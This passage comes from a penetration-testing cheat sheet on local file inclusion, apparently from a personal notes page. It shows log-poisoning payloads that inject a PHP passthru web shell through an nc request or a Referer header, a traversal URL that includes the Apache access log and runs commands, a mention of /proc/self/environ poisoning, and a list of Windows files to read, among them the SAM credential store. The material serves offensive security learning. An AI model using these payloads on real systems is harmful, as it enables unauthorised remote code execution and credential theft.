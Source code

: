 You can also add it to the error-log by making a request to a page that doesn't exists

```
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Or in the referer parameter.

```
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

**Execute it in the browser**

Now you can request the log-file through the LFI and see the php-code get executed.

```
http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Proc files

If you can read the proc-files on the system you might be able to poison them through the user-agent.

We can also inject code into `/proc/self/environ` through the user-agent, or `/proc/self/fd/{0-9}` files

[https://www.exploit-db.com/papers/12992/](https://www.exploit-db.com/papers/12992/)

[https://www.youtube.com/watch?v=ttTVNcPnsJY](https://www.youtube.com/watch?v=ttTVNcPnsJY)

## Windows

**Fingerprinting**

```
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```
